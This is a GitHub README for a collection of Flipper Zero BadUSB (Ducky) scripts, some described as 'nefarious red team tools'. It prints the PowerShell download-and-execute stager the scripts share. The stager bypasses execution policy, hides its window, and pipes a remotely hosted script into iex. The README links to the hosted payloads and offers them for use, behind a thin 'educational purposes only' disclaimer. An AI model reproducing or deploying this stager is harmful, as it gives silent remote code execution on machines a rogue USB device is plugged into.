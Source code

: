 # Downloadable-Ducky-Scripts-For-FlipperZero

**These scripts download scripts to run from this repo -**

https://github.com/beigeworm/assets/tree/main/Scripts

they all use this command > `powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

#  If you like my work please leave a star. ⭐


